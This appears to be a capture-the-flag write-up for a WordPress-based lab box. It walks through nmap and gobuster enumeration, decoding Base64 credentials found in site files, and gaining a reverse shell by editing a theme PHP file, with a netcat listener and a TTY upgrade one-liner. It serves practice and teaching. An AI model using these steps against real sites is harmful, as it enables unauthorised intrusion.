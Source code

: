 2. **Targeted scan**
```bash
nmap -sC -sV -p22,80,443 -oA nmap/targeted 10.10.X.X
```
If SSH shows as closed in a generic scan, re-check with targeted scan.

3. **Web content discovery**
```bash
gobuster dir -u http://10.10.X.X -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -t 50 -o gobuster/root.txt
# or feroxbuster if preferred
```
From enumeration we discover paths such as `/robots.txt`, `/license` (or `readme`), and `/wp-login.php`.

---

## Finding Key 1 & Credentials
1. **Check robots.txt**
```bash
curl -sS http://10.10.X.X/robots.txt
```
Robots pointed to a file (example: `key-1-of-3.txt`). Download it and note it is one of the keys.

2. **Check other discovered files**
- `license`, `readme`, or similar files sometimes contain Base64-encoded strings. Copy the Base64 blob and decode:
```bash
echo 'BASE64_STRING' | base64 -d
```
That decoded output provided WordPress credentials (username and password). Keep those safe.

> **Captured:** Key 1 was found directly via web enumeration (do **not** publish the key here).

---

## Foothold — WordPress Editor → Reverse Shell

1. **Login to WordPress**  
Visit `http://10.10.X.X/wp-login.php` and authenticate with the decoded credentials found earlier.

2. **Edit theme file**  
Navigate to **Appearance → Theme File Editor** (or the page editor) to find an editable PHP template (commonly `404.php` or another page template). Because the user role had editor privileges, I was able to modify a theme file.

3. **Prepare listener on attacker**
```bash
nc -lvnp 9010
```

4. **Inject reverse shell and trigger page**  
Paste a PHP payload into the editable page and save. Trigger the page in a browser to execute it and receive a shell on the listener.

5. **Upgrade the shell**
Once you get a basic shell, upgrade TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then Ctrl-Z, stty raw -echo, fg, reset terminal as usual
```

